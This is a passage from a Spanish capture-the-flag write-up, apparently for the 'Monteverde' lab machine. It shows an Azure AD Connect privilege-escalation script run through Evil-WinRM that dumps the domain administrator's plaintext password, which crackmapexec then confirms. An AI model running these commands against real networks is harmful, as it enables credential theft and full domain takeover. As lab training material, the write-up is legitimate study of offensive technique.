 Encontre el siguiente script ps1 en github que permitia escalar privilegios. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1

Solo tenemos que subirlo a la máquina víctima y ejecutarlo de la siguiente manera.

```PowerSHell
*Evil-WinRM* PS C:\Users\mhope\Documents: Import-Module .\Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope\Documents: Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

Ya tenemos las credenciales de administrador, podemos ver si son validas a traves de CME

```bash
❯ crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (Pwn3d!)
```

Ya hemos pwneado la máquina, espero que te sirva este WriteUp!














